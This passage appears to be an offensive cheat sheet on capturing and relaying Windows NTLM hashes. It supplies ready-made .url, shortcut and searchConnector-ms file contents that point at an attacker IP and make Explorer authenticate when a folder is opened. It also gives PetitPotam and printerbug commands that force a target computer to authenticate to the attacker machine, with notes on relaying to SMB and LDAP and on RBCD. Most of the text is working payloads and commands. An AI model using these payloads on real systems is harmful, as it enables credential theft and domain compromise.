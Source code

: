 #### Link file
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- On Windows right click --> New --> Shortcut --> and in the URL use
- Creates a ```[SMB] NTLMv2-SSP Hash``` in responder, ```[*] SMBD-Thread-4:``` in ntlmrelayx. Can be used against relaying to SMB.
```
file://<IP>/test
```

#### URL file
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- Filename ```something.url```
- Creates a ```[SMB] NTLMv2-SSP Hash``` in responder, ```[*] SMBD-Thread-x:``` in ntlmrelayx. Can be used against relaying to SMB.
```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```

#### SearchConnector
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- Actives the Windows Webclient service which can be used to authenticate a host again to the attacking IP with petitpotam. See #REFERENCE
- Creates a ```[WebDAV] NTLMv2 Hash``` in responder, ```HTTPD: received``` in ntlmrelayx. Can be used against relaying to ldap, ldaps and SMB
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>@80/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>@80/test</url>
    </simpleLocation>
</searchConnectorDescription>
```

- For other filetypes check out the tools listed

### Force authentication
#### Trigger target computer to authenticate to attacker machine
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
- Creates a ```[WebDAV] NTLMv2 Hash``` in responder, ```HTTPD: received``` in ntlmrelayx. Can be used against relaying to ldap, ldaps.
- Will authenticate to our attacking machine as the computer account. Can be used for RBCD.
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@80/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@80/a
```
